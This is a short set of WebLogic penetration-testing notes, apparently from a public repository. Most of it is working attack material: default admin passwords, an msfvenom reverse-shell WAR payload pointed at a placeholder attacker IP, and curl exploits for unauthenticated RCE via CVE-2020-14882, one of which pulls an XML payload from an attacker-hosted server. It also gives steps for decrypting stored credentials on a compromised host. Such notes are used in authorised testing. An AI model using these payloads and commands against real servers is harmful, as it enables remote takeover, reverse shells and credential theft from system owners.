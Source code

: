 ```yaml
---
title: WebLogic pentest notes
---
```


Default passwords
=================

| Version | Account | Default password |
|---------|---------|------------------|
| <= 10   | weblogic| weblogic         |
| >= 11   | weblogic| weblogic1 *or* Welcome1 *or* welcome1 |


RCE from admin account
======================
Generate a WAR file using msf.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=xx.xx.xx.xx LPORT=1234 -f war > peace.war
```

Then deploy on the web interface. First enter the deployment menu, second lock the configuration for editing and then click install. This gives the option to upload a new RAR and install it on the server, triggering the payload:
![lock and edit](./WebLogic/wl.PNG)


Unauthenticated RCE CVE-2020-14882
==================================
There are loads of other RCEs spanning 2017-2020 but this one is so easy and powerful it kinda renders all other obsolete.

If Tangosol is present on the target (versions >=12 usually) then direct remote code execution is achieved:
```
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal' --data '_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/rce');")'
```

Otherwise an additional malicious webserver hosting a XML paylod is needed, but RCE is achieved nonetheless.

Hosted XML file ```wl.xml```:
```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>touch</value>
            <value><![CDATA[/tmp/rce]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

```
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal' --data '_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22http://xx.xx.xx.xx/wl.xml%22)'
```

Of course, the WebLogic server needs to have network visibility on the hosted payload.


Decrypting passwords
====================

Offline
-------
On the compromised host, recover these two files:

* SerializedSystemIni.dat: this is the decryption key in binary format so you usually can't grab it using LFI...
* boot.properties: contains encrypted user and password values

Decrypt using [this python script](https://gist.github.com/gquere/b331d9a8f0c0ffc8ac1fb44123aa8335).


Online
------
Grab the domain path from the ```wl-domains``` folder
```
wlst.sh
wls:/offline> domain = "..."
wls:/offline> service = weblogic.security.internal.SerializedSystemIni.getEncryptionService(domain)
wls:/offline> enc = weblogic.security.internal.encryption.ClearOrEncryptedService(service)
wls:/offline> enc.decrypt('{AES}...')
```
